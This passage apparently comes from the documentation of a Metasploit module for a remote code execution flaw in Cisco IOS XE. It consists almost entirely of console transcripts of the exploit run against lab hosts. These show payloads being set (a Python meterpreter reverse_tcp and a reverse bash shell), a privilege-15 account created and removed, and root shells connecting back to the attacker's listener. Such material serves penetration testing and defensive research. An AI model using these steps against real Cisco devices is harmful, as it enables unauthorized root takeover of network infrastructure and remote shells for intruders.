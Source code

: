 ```
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0
uname -a
Linux test2_c1000v 4.19.64 #1 SMP Wed Dec 11 10:30:30 PST 2019 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.114 - Command shell session 8 closed.
msf exploit(linux/misc/cisco_ios_xe_rce) > 
```

### Unix Target (IOS XE 17.3.2)

```
msf exploit(linux/misc/cisco_ios_xe_rce) > set RHOSTS 192.168.86.113
RHOSTS => 192.168.86.113
msf exploit(linux/misc/cisco_ios_xe_rce) > set target 1
target => 1
msf exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/unix/python/meterpreter/reverse_tcp
payload => cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
[*] Created privilege 15 user 'edGjwUsF' with password 'hhOLNNrX'
[*] Removing user 'edGjwUsF'
[*] Sending stage (24772 bytes) to 192.168.86.113
[*] Meterpreter session 9 opened (192.168.86.122:4444 -> 192.168.86.113:56770) at 2025-03-03 20:36:00 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : testc100v
OS           : Linux 4.19.106 #1 SMP Fri Oct 2 17:55:01 UTC 2020
Architecture : x64
Meterpreter  : python/linux
meterpreter > 
```

```
msf exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
[*] Created privilege 15 user 'mXsKBwvG' with password 'gCUirrkj'
[*] Removing user 'mXsKBwvG'
[*] Command shell session 10 opened (192.168.86.122:4444 -> 192.168.86.113:56802) at 2025-03-03 20:36:39 +0000

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0
uname -a
Linux testc100v 4.19.106 #1 SMP Fri Oct 2 17:55:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.113 - Command shell session 10 closed.
msf exploit(linux/misc/cisco_ios_xe_rce) > 
```
